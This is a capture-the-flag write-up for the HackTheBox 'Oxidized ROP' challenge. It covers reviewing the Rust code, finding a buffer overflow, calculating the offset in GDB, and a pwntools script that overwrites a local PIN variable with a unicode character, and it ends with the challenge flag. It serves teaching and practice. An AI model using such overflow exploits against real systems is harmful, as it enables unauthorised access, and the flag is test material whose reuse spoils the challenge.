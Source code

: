 # Oxidized ROP

> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c1509f6f-69d5-4070-afcd-21bb76357492)


## Lessons Learned:
- RUST code review.
- Local Variable Overwrite using unicode characters.

## DESCRIPTION:

Our workshop is rapidly oxidizing and we want a statement on its state from every member of the team! > flag in `/challenge/flag.txt`

## STEPS:
1. In this challenge, we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ab601b6c-8a5f-44ac-8f83-d71adeb32830)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5753d15e-03a9-4c69-8e98-78da40535ba0)


2. Noticed, the challenge author disclosed the source code. Hence no need to decompile the binary **for now**.
3. Upon reviewing the **rust** code, found a BOF vuln at the `save_data()` function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9cbd9971-2815-4847-9bed-f3b34e2b6e98)


4. Based from the snippet code above, we can conclude that `dest` is a mutable reference to an array of `u8` with fixed size of `INPUT_SIZE` --> 200 chars.
5. Then it tries to copy characters from the `src` string to the `dest` buffer. However, the function does not check whether the length of the `src` string exceeds the size of the `dest`  buffer before copying.
6. This could lead to Buffer Overflow.
7. Next, upon reviewing other LOCs, seems our target is to modify the pin value to **123456**. This function can be accessed at menu **2**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7b3ed479-8d3f-458a-bebb-795e132b5820)


8. If we select the second option, we're not allowed to enter a value for the `login_pin`.
9. It's because a global variable named `PIN_ENTRY_ENABLED` os set to false at the beginning. However the pin still checked.
10. So our objective is to utilize the overflow vuln to overwrite the value for local variable `login_pin`.
11. Reviewing the first menu, noticed a `read_user_input()` usage, it's similiar to `gets()` in C. Noticed that `input_buffer` variable is used as the `src` which the boundary is not checked.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/63c4d890-5296-4717-b312-442da756842f)


12. Another things to note in rustpwn, to modify the variable value in rust, we need to encode it so it has wider range of action.
13. Now let's identify the offset.

> USING GDB

```
To identify the offset:

- Starts with send 8 A's then CTRL+C.
- Remembering PIE is enabled, find an address that ends with 11223344.
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a86723c4-2f38-43ff-87c1-cccd7763e5d8)


14. Noticed our input not stored as 0x4141414141414141. Instead, each of them has a length of 4 bytes.
15. At this condition the formula to calculate the offset is:

```
p (0x7fffffffdab0 - 0x7fffffffd918) / 4
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c9af6b74-8554-488d-8db3-b15422d54d5b)


> RESULT --> 102

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a2a8543b-5672-4816-b479-2728989e36fd)


16. Great! Let's send our payload remotely.

> FULL SCRIPT

```py
from pwn import *

exe = './oxidized-rop'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

# sh = process(exe)
sh = remote('94.237.63.83',51413)
padding = 102
# p = flat([
#     asm('nop') * padding,
#     chr(123456).encode() 
# ])

p = cyclic(102) + chr(123456).encode()

sh.sendlineafter(b':', b'1')
sh.sendlineafter(b':', p)
sh.sendlineafter(b':', b'2')

# gdb.attach(sh)
sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9c4ea9fa-baa9-4946-b267-d5af1f38f290)


17. We've pwned it!

## FLAG

```
HTB{7h3_0r4n63_cr4b_15_74k1n6_0v3r!}
```
